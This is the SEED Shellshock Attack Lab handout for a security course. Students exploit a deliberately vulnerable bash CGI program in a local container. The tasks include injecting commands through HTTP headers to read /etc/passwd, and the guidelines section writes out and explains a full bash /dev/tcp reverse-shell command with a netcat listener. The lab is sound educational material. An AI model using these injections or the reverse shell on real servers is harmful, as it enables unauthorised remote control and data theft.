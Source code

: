 =====================
Shellshock Attack Lab
=====================

Overview
========

On September 24, 2014, a severe vulnerability in bash was identified.
Nicknamed Shellshock, this vulnerability can exploit many systems and be
launched either remotely or from a local machine. In this lab, students
need to work on this attack, so they can understand the Shellshock
vulnerability. The learning objective of this lab is for students to get
a first-hand experience on this interesting attack, understand how it
works, and think about the lessons that we can get out of this attack.
The first version of this lab was developed on September 29, 2014, just
five days after the attack was reported. It was assigned to the students
in our Computer Security class on September 30, 2014. An important
mission of the SEED project is to quickly turn real attacks into
educational materials, so instructors can bring them into their
classrooms in a timely manner and keep their students engaged with what
happens in the real world. This lab covers the following topics:

-  Shellshock

-  Environment variables

-  Function definition in bash

-  Apache and CGI programs

**Readings and videos.** Detailed coverage of the Shellshock attack can be found in the
following:

-  Chapter 3 of the SEED Book, Computer & Internet Security: A Hands-on Approach, 2nd Edition, by
   Wenliang Du. See details at `<https://www.handsonsecurity.net>`_.

-  Section 3 of the SEED Lecture at Udemy, Computer Security: A Hands-on Approach, by Wenliang
   Du. See details at `<https://www.handsonsecurity.net/video.html>`_.

**Lab environment.** This lab has been tested on our pre-built Ubuntu 20.04 VM, which can be downloaded
from the SEED website. Since we use containers to set up the lab environment, this lab does not depend
much on the SEED VM. You can do this lab using other VMs, physical machines, or VMs on the cloud.

Environment Setup
=================

DNS Setting
-----------

In our setup, the web server container’s IP address is ``10.9.0.5``. The
hostname of the server is called ``www.seed-server.com``. We need to map
this name to the IP address. Please add the following to ``/etc/hosts``.
You need to use the root privilege to modify this file:

::

   10.9.0.5       www.seed-server.com

Container Setup and Commands
----------------------------
Please download the Labsetup.zip file to your VM from the lab’s website, unzip it, enter the Labsetup
folder, and use the docker-compose.yml file to set up the lab environment. Detailed explanation of the
content in this file and all the involved Dockerfile can be found from the user manual, which is linked
to the website of this lab. If this is the first time you set up a SEED lab environment using containers, it is
very important that you read the user manual.

In the following, we list some of the commonly used commands related to Docker and Compose. Since
we are going to use these commands very frequently, we have created aliases for them in the .bashrc file
(in our provided SEEDUbuntu 20.04 VM).

::

   $ docker-compose build   # Build the container image
   $ docker-compose up      # Start the container
   $ docker-compose down    # Shut down the container
   
   // Aliases for the Compose commands above
   $ dcbuild               # Alias for: docker-compose build
   $ dcup                  # Alias for: docker-compose up
   $ dcdown                # Alias for: docker-compose down

All the containers will be running in the background. To run commands on a container, we often need
to get a shell on that container. We first need to use the "docker ps" command to find out the ID of
the container, and then use "docker exec" to start a shell on that container. We have created aliases for
them in the .bashrc file.

::

   $ dockps          // Alias for: docker ps --format "{{.ID}} {{.Names}}"
   $ docksh <id>     // Alias for: docker exec -it <id> /bin/bash
   
   // The following example shows how to get a shell inside hostC
   $ dockps
   b1004832e275 hostA-10.9.0.5
   0af4ea7a3e2e hostB-10.9.0.6
   9652715c8e0a hostC-10.9.0.7
   
   $ docksh 96
   root@9652715c8e0a:/#

   // Note: If a docker command requires a container ID, you do not need to
   //       type the entire ID string. Typing the first few characters will
   //       be sufficient, as long as they are unique among all the containers.

If you encounter problems when setting up the lab environment, please read the “Common Problems”
section of the manual for potential solutions.

Web Server and CGI
------------------

In this lab, we will launch a Shellshock attack on the web server
container. Many web servers enable CGI, which is a standard method used
to generate dynamic content on web pages and for web applications. Many
CGI programs are shell scripts, so before the actual CGI program runs, a
shell program will be invoked first, and such an invocation is triggered
by users from remote computers. If the shell program is a vulnerable
bash program, we can exploit the Shellshock vulnerable to gain
privileges on the server.

In our web server container, we have already set up a very simple CGI
program (called ``vul.cgi``). It simply prints out "Hello World" using a
shell script. The CGI program is put inside Apache’s default CGI folder
``/usr/lib/cgi-bin``, and it must be executable. Below is vul.cgi.

::

   #!/bin/bash\_shellshock     

   echo "Content-type: text/plain"
   echo
   echo
   echo "Hello World"

The CGI program uses ``/bin/bash_shellshock`` (the first line), instead
of using ``/bin/bash``. This line specifies what shell program should be
invoked to run the script. We do need to use the vulnerable bash in this
lab.

To access the CGI program from the Web, we can either use a browser by
typing the following URL: `<http://www.seed-server.com/cgi-bin/vul.cgi>`_, or
use the following command line program curl to do the same thing. Please
make sure that the web server container is running.

::

   $ curl http://www.seed-server.com/cgi-bin/vul.cgi

**Lab Tasks**

Detailed guidelines on the Shellshock attack can be found in the SEED
book, so we will not repeat the guidelines in the lab description.

Task 1: Experimenting with Bash Function
========================================

The bash program in Ubuntu 20.04 has already been patched, so it is no
longer vulnerable to the Shellshock attack. For the purpose of this lab,
we have installed a vulnerable version of bash inside the container
(inside ``/bin``). The program can also be found in the ``Labsetup``
folder (inside ``image_www``). Its name is ``bash_shellshock``. We need
to use this bash in our task. You can run this shell program either in
the container or directly on your computer. The container manual is
linked to the lab’s website.

Please design an experiment to verify whether this bash is vulnerable to
the Shellshock attack or not. Conduct the same experiment on the patched
version ``/bin/bash`` and report your observations.

Task 2: Passing Data to Bash via Environment Variable
=====================================================

To exploit a Shellshock vulnerability in a bash-based CGI program,
attackers need to pass their data to the vulnerable bash program, and
the data need to be passed via an environment variable. In this task, we
need to see how we can achieve this goal. We have provided another CGI
program (``getenv.cgi``) on the server to help you identify what user
data can get into the environment variables of a CGI program. This CGI
program prints out all its environment variables. Below is getenv.cgi.

::

   #This is getenv.cgi
   #!/bin/bash_shellshock             

   echo "Content-type: text/plain"
   echo
   echo "****** Environment Variables ******"
   strings /proc/$$/environ            ➀

Task 2.A: Using brower
----------------------

In the code above, Line ➀ prints out the contents of all the environment
variables in the current process. Normally, you would see something like
the following if you use a browser to access the CGI program. Please
identify which environment variable(s)’ values are set by the browser.
You can turn on the HTTP Header Live extension on your browser to
capture the HTTP request, and compare the request with the environment
variables printed out by the server. Please include your investigation
results in the lab report.

::

   ****** Environment Variables ******
   HTTP_HOST=www.seed-server.com
   HTTP_USER_AGENT=Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:83.0) ...
   HTTP_ACCEPT=text/html,application/xhtml+xml,application/xml;q=0.9, ...
   HTTP_ACCEPT_LANGUAGE=en-US,en;q=0.5
   HTTP_ACCEPT_ENCODING=gzip, deflate
   ...

Task 2.A: Using ``curl``
------------------------

If we want to set the environment variable data to arbitrary values, we
will have to modify the behavior of the browser, that will be too
complicated. Fortunately, there is a command-line tool called ``curl``,
which allows users to to control most of fields in an HTTP request. Here
are some of the userful options: (1) the ``-v`` field can print out the
header of the HTTP request; (2) the ``-A``, ``-e``, and ``-H`` options
can set some fields in the header request, and you need to figure out
what fileds are set by each of them. Please include your findings in the
lab report. Here are the examples on how to use these fields:

::

   $ curl -v www.seed-server.com/cgi-bin/getenv.cgi
   $ curl -A "my data" -v www.seed-server.com/cgi-bin/getenv.cgi
   $ curl -e "my data" -v www.seed-server.com/cgi-bin/getenv.cgi
   $ curl -H "AAAAAA: BBBBBB" -v www.seed-server.com/cgi-bin/getenv.cgi

Based on this experiment, please describe what options of ``curl`` can
be used to inject data into the environment variables of the target CGI
program.

Task 3: Launching the Shellshock Attack
=======================================

We can now launch the Shellshock attack. The attack does not depend on
what is in the CGI program, as it targets the bash program, which is
invoked before the actual CGI script is executed. Your job is to launch
the attack through the URL http://www.seed-server.com/cgi-bin/vul.cgi,
so you can get the server to run an arbitrary command.

If your command has a plain-text output, and you want the output
returned to you, your output needs to follow a protocol: it should start
with ``Content_type: text/plain``, followed by an empty line, and then
you can place your plain-text output. For example, if you want the
server to return a list of files in its folder, your command will look
like the following:

::

   echo Content_type: text/plain; echo; /bin/ls -l

In this task, please use three different approaches (i.e., three
different HTTP header fields) to launch the Shellshock attack against
the target CGI program. You need to achieve the following objectives.
For each objective, you only need to use one approach, but in total, you
need to use three different approaches.

-  Task 3.A: Get the server to send back the content of the
   ``/etc/passwd`` file.

-  Task 3.B: Get the server to tell you its process’ user ID. You can
   use the ``/bin/id`` command to print out the ID information.

-  Task 3.C: Get the server to create a file inside the ``/tmp`` folder.
   You need to get into the container to see whether the file is created
   or not, or use another Shellshock attack to list the ``/tmp`` folder.

-  Task 3.D: Get the server to delete the file that you just created
   inside the ``/tmp`` folder.

**Questions.** Please answer the following questions:

-  Question 1: Will you be able to steal the content of the shadow file
   ``/etc/shadow`` from the server? Why or why not? The information
   obtained in Task 3.B should give you a clue.

-  Question 2: HTTP GET requests typically attach data in the URL, after
   the ``?`` mark. This could be another approach that we can use to
   launch the attack. In the following example, we attach some data in
   the URL, and we found that the data are used to set the following
   environment variable:

   ::

      $ curl "http://www.seed-server.com/cgi-bin/getenv.cgi?AAAAA"
      ...
      QUERY_STRING=AAAAA
      ...

   Can we use this method to launch the Shellshock attack? Please
   conduct your experiment and derive your conclusions based on your
   experiment results.

Task 4: Getting a Reverse Shell via Shellshock Attack
=====================================================

The Shellshock vulnerability allows attacks to run arbitrary commands on
the target machine. In real attacks, instead of hard-coding the command
in the attack, attackers often choose to run a shell command, so they
can use this shell to run other commands, for as long as the shell
program is alive. To achieve this goal, attackers need to run a reverse
shell.

Reverse shell is a shell process started on a machine, with its input
and output being controlled by somebody from a remote computer.
Basically, the shell runs on the victim’s machine, but it takes input
from the attacker machine and also prints its output on the attacker’s
machine. Reverse shell gives attackers a convenient way to run commands
on a compromised machine. Detailed explanation of how to create a
reverse shell can be found in the SEED book. We also summarize the
explanation in Section \ `4 <#shellshock:sec:reverseshell>`__. In this
task, you need to demonstrate how you can get a reverse shell from the
victim using the Shellshock attack.

Task 5: Using the Patched Bash
==============================

Now, let us use a bash program that has already been patched. The
program ``/bin/bash`` is a patched version. Please replace the first
line of the CGI programs with this program. Redo Task 3 and describe
your observations.

Guidelines: Creating Reverse Shell
==================================

The key idea of reverse shell is to redirect its standard input, output, and error devices to a network connection, so the shell gets its input from the connection, and prints out its output also to the connection. At the
other end of the connection is a program run by the attacker; the program simply displays whatever comes
from the shell at the other end, and sends whatever is typed by the attacker to the shell, over the network
connection.

A commonly used program by attackers is netcat, which, if running with the "-l" option, becomes
a TCP server that listens for a connection on the specified port. This server program basically prints out
whatever is sent by the client, and sends to the client whatever is typed by the user running the server. In the
following experiment, netcat (nc for short) is used to listen for a connection on port 9090 (let us focus
only on the first line).

::

   Attacker(10.0.2.6):$ nc -nv -l 9090      <- Waiting for reverse shell
   Listening on 0.0.0.0 9090
   Connection received on 10.0.2.5 39452
   Server(10.0.2.5):$                      <-Reverse shell from 10.0.2.5.
   Server(10.0.2.5):$ ifconfig
   ifconfig
   enp0s3: flags=4163<UP,BROADCAST,RUNNING,MULTICAST> mtu 1500
           inet 10.0.2.5 netmask 255.255.255.0 broadcast 10.0.2.255
           ...

The above ``nc`` command will block, waiting for a connection. We now directly run the following bash
program on the Server machine (``10.0.2.5``) to emulate what attackers would run after compromising the
server via the Shellshock attack. This bash command will trigger a TCP connection to the attacker machine’s
port 9090, and a reverse shell will be created. We can see the shell prompt from the above result, indicating
that the shell is running on the Server machine; we can type the ifconfig command to verify that the IP
address is indeed ``10.0.2.5``, the one belonging to the Server machine. Here is the bash command:

::

   Server(10.0.2.5):$ /bin/bash -i > /dev/tcp/10.0.2.6/9090 0<&1 2>&1

The above command represents the one that would normally be executed on a compromised server. It is
quite complicated, and we give a detailed explanation in the following:

-  "/bin/bash -i": The option i stands for interactive, meaning that the shell must be interactive
   (must provide a shell prompt).

-  "> /dev/tcp/10.0.2.6/9090": This causes the output device (``stdout``) of the shell to be
   redirected to the TCP connection to 10.0.2.6’s port 9090. In Unix systems, stdout’s file
   descriptor is 1.

-  "0<&1": File descriptor 0 represents the standard input device (``stdin``). This option tells the system
   to use the standard output device as the stardard input device. Since stdout is already redirected to
   the TCP connection, this option basically indicates that the shell program will get its input from the
   same TCP connection.

-  "2>&1": File descriptor 2 represents the standard error ``stderr``. This causes the error output to be
    redirected to stdout, which is the TCP connection.

In summary, the command "``/bin/bash -i > /dev/tcp/10.0.2.6/9090 0<&1 2>&1``" starts
a bash shell on the server machine, with its input coming from a TCP connection, and output going to the
same TCP connection. In our experiment, when the ``bash`` shell command is executed on ``10.0.2.5``, it
connects back to the netcat process started on ``10.0.2.6``. This is confirmed via the "Connection
from ``10.0.2.5`` ..." message displayed by netcat.

Submission
==========
You need to submit a detailed lab report, with screenshots, to describe what you have done and what you
have observed. You also need to provide explanation to the observations that are interesting or surprising.
Please also list the important code snippets followed by explanation. Simply attaching code without any
explanation will not receive credits.
